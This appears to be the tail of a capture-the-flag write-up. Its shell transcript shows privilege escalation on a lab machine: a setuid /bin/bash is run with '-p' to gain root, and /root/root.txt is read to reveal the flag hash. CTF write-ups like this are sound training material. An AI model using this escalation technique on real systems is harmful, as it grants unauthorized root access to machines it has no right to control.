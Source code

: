 ```yaml
bash-4.3$ 

bash-4.3$ ls
ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr
bash-4.3$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
bash-4.3$ cd root
cd root
bash: cd: root: Permission denied
bash-4.3$ cd /root
cd /root
bash: cd: /root: Permission denied
bash-4.3$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
bash-4.3# ls
ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr
bash-4.3# cd root
cd root
bash-4.3# ls
ls
root.txt
bash-4.3# cat root.txt
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
bash-4.3# 
```

## Become root and get the last flag (/root/root.txt)
```yaml
 a58ff8579f0a9270368d33a9966c7fd5
```